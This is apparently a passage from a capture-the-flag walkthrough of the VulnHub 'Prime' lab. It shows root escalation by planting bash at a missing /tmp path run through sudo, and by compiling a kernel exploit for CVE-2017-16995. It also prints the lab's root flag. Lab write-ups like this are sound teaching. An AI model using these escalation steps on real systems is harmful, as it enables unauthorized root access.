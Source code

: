 ```

```
User saket may run the following commands on ubuntu:
  (root) NOPASSWD: /home/victor/undefeated_victor
```

- ```
  sudo /home/victor/undefeated_victor
  ```
- ```
  /home/victor/undefeated_victor: 2: /home/victor/undefeated_victor: /tmp/challenge: not found
  ```
- It seems to be looking for `/tmp/challenge` but there is no such file or directory in `/tmp`.
- But if we copy `/bin/bash` to `/tmp` as `challenge`, we might be able to invoke `bash` as `root`.
- `cp /bin/bash /tmp/challenge`
- ```
  sudo /home/victor/undefeated_victor
  ```
- And we have root access!
- `cat /root/root.txt`
- ```
  b2b17036da1de94cfb024540a8e7075a
  ```

![VulnHub Prime Root Proof](/imgs/prime/prime_root_proof.png)

#### Kernel Exploit

- After gaining access to the system, we can also try kernel exploits for privilege escalation.
- I used [Linux Exploit Suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) for this.
- Used `wget` to download the raw perl script from GitHub and gave it execution permissions with `chmod +x`.
- `./linux-exploit-suggester-2.pl -d`
- It lists only one kernel exploit [CVE-2017-16695](https://www.exploit-db.com/exploits/45010) so lets download that.
- `searchsploit -p 45010`
- For details on how the exploit works, check out [eBPF and Analysis of the get-rekt-linux-hardened.c Exploit for CVE-2017-16995](https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html).
- `ls -la exploit_get_rekt && file exploit_get_rekt`

```
-rw-rw-r-- 1 saket saket 13728 Jun  1 10:31 exploit_get_rekt
exploit_get_rekt: C source, ASCII text, with CRLF line terminators
```

- Its a C file so lets rename it so and compile it.
- `mv exploit_get_rekt exploit_get_rekt.c`
- `gcc exploit_get_rekt.c -o exploit_get_rekt`
- `chmod +x exploit_get_rekt`

![VulnHub Prime Kernel Exploit Compile CVE-2017-16695](/imgs/prime/prime_kernel_exploit_compile_cve-2017-16695.png)

- Now lets run the executable to gain root.

![VulnHub Prime Kernel Exploit Root](/imgs/prime/prime_kernel_exploit_root.png)

#### Metasploit

- `msfconsole`
- `search linux 4.10.0`
- ```
```